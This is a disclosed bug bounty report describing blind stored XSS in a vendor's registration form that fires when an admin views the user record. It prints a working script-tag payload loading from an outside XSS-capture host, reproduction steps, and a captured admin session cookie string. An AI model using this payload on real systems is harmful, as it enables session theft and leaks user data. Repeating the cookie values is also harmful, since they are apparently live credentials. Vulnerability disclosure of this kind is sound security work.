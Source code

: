 # Improper Sanitization leads to XSS Fire on admin panel

## Report Details
- **Report ID**: 1011888
- **URL**: https://hackerone.com/reports/1011888
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-10-19T16:07:22.235Z
- **Disclosed**: 2021-08-03T11:32:02.985Z

## Reporter
- **Username**: montypythin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: informatica

## Vulnerability Information
# Summary
Because the HTML is not sanitized when taking the input on https://accounts.informatica.com/registration.html,  the input is vulnerable to XSS. When a payload such as 
```"><script src=https://monty.xss.ht></script>``` 
is put into the form under company it triggers a blind xss. When the payload successfully is loaded, it dumps information as a POC.

# Steps to reproduce
1) Goto https://accounts.informatica.com/registration.html and create a temporary account
2) Enter a blind xss payload into the Company field
3) Wait until an admin opens the user record
4) Then, the report should be generated ( I used https://xsshunter.com/)

#Supporting Materials
As mentioned, the blind XSS gave me the following IP address  who loaded the admin panel:
████████

The URL of where the payload fired:
https://█████████/phnx/driver.aspx?routename=Social/UniversalProfile/UserRecordEdit&TargetUser=480514&FromSearch=True#loaded

This cookie:
```
wm-cseu-id=%22acd409d8-0f55-4dfd-ac79-d604c5af274e%22; _ga=GA1.2.1915629716.1598908964; wm-fgug=true; wm-ueug=%22b904c8fd-f624-4afb-8050-25f31b3b9cea%22; wm-nor=true; _gid=GA1.2.244633304.1603115085; wm-ueuT=%22b904c8fd-f624-4afb-8050-25f31b3b9cea%22; wm-hb={%22sendBaseTime%22:1603115100166}; wm-wmv=%22b904c8fd-f624-4afb-8050-25f31b3b9cea%22; wm-ds-lfb=%22{}%22; wm-ssn=%22758bcf15-12bc-497e-ab66-f82c25747f45%22; wm-ssn-ct=1603118590494; wm-po-q=null; wm-prsst={%22tId%22:-1%2C%22stt%22:0%2C%22step%22:-1%2C%22spn%22:0%2C%22plgd%22:%22%22%2C%22pint%22:null%2C%22splt%22:[]%2C%22sph%22:[]%2C%22igd%22:null}; wm-ds-lbp=%22[]%22; wm-ds-b=%22[]%22; wm-ds-hb=%22[]%22; wm-ds-lbb=%22{}%22; wm-smtp-init={%22type%22:6}; wm-ds-s=%22[]%22; shoppingcart_coupons=%5B%5D; multiVPoll=; c-s=expires=1603207989~access=/clientimg/informatica/*!/content/informatica/*~md5=832a84c8a012e7d42c375195181dde62; amplitude_id_a328ec1895b18ee52643ef53449b6ecbcsod.com=eyJkZXZpY2VJZCI6IjgwYTA3ZDIxLTA3ZDctNDc4Mi1iNzIxLTc2NTkzMDJkYzg3OFIiLCJ1c2VySWQiOiJENDA4OTY2NUE4OTc5REMyQjUyNDhGMkM1NTk2Q0E1MjdEMzVGQUJFMzA2MTc5REQ0NjA5NEUyQUU1QUJCQUMxIiwib3B0T3V0IjpmYWxzZSwic2Vzc2lvbklkIjoxNjAzMTIxMTg3NTM0LCJsYXN0RXZlbnRUaW1lIjoxNjAzMTIxNTkyODA3LCJldmVudElkIjoyMjIsImlkZW50aWZ5SWQiOjIxOSwic2VxdWVuY2VOdW1iZXIiOjQ0MX0=; wm-po-p=13; wm-po-r=13; wm-dmn=csod.com; _gat=1; wm-ds-lb=%22{}%22
```

What the XSS saw:
█████
Note that this is leaking what appears to be another customer's data

The full report:
████████

## Impact

With this blind XSS vulnerability, a malicious actor could download malware, install a keylogger, steal the admin cookie, and learn IPs of the backend servers and softwares. Also as shown by the screenshot it leaks singular user's names and their corresponding email addresses.

## Attachments
No attachments
